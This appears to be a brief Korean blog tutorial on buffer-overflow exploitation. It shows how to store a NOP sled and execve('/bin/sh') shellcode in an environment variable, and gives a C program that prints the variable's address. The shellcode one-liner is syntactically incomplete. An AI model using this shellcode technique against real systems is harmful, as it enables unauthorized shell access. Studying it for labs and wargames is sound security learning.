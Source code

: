 ```yaml
---
title: "환경변수 설정 및 주소 구하기"
excerpt: "환경변수 설정 및 주소 구하기"
toc: true
toc_sticky: true
categories:
  - Linux
  - BOF
tags:
  - 환경변수
---
```


## 1. 환경변수 설정
export 변수명=변수값
```php
ex)
export addr=`python -c 'print "\x90"*100+ "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"(변수 값)
```

## 2. 환경변수 주소 구하기

```php
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[])
{
   printf("env : %p\n", getenv(argv[1]));
   return 0;
}
```